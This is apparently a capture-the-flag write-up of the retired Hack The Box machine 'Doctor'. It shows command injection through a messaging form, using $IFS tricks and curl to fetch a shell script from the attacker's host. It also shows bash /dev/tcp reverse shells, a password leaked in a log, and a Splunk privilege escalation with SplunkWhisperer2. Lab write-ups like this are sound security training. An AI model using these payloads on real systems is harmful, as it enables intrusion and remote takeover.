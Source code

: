 # Doctor

This is the write-up for the box Doctor that got retired at the 6th February 2021.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.209    doctor.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/doctor.nmap 10.10.10.209
```

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Doctor
|_http-server-header: Apache/2.4.41 (Ubuntu)
8089/tcp open  ssl/http Splunkd httpd
|_http-title: splunkd
| http-robots.txt: 1 disallowed entry
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
|_http-server-header: Splunkd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The webpage on port 80 is a static website that provides health services.
It shows one hostname _doctors.htb_ that should be put into our _/etc/hosts_ file.

On this hostname, it forwards to a different webpage with the title _Doctor Secure Messaging_ where it is possible to register a user:

![Doctor Secure Messaging](doctor_web-1.png)

After registering a user, we can login and are able to create a _New Message_.
One thing to always test is to try a callback by posting a link:
```
Title: Click this link
Content: http://10.10.14.10/
```
```
nc -lvnp 80

Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:40950.
GET / HTTP/1.1
Host: 10.10.14.10
User-Agent: curl/7.68.0
```

It seems to run `curl` on every post, so it can be tested, if other commands can be run:
```
Content: http://10.10.14.10/$(whoami)
```
```
GET /web HTTP/1.1
Host: 10.10.14.10
```

It runs `whoami` because now it contains _web_ in the request.
This proofs command execution and we can send a reverse shell command to the server, to gain a shell connection.

It cannot handle spaces, but the _IFS variable_ helps to bypass that restriction:
```
title=test&content=http://10.10.14.10/$(echo$IFS'test')&submit=Post
```
```
GET /test HTTP/1.1
```

Creating a reverse shell script:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.10/9001 0>&1'
```

Sending request with a `curl` command to upload a reverse shell script to _/var/www/html_:
```
title=test&content=http://10.10.14.10/$(curl$IFS'-o'$IFS'/var/www/html/shell'$IFS'http://10.10.14.10/shell')&submit=Post&submit=Post
```

Sending a request to execute the _shell_ script:
```
title=test&content=http://10.10.14.10/$(bash$IFS'/var/www/html/shell')&submit=Post&submit=Post
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell connection as the user _web_.

## Privilege Escalation

The user _web_ is in the group _adm_ and thus has the permissions to read logs.
The log file _/var/log/apache2/backup_ is not a default file and in there are requests to the website.

When filtering for the directories, in there is one with a potential password:
```
cat backup | awk '{print $7}' | sort | uniq -c | sort -n
```
```
/reset_password?email=Guitar123"
```

There is another user on the box called _shaun_ so lets try to switch users:
```
su shaun
```

The password from the log file works for this user.

### Privilege Escalation to root

The service on port 8089 was not yet checked, so to escalate privileges to root, it may be useful to look into it.
It runs **Splunk Atom Feed** and the credentials of _shaun_ are valid to authenticate into the _services_.

When researching for vulnerabilities, there is a LPE and RCE tool called [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2) that can be used to escalate privileges:
```
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --lhost 10.10.14.10 --lport 9001 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.10/9002 0>&1'"
```

After executing the command, the listener on my IP and port 9002 starts a reverse shell as root!
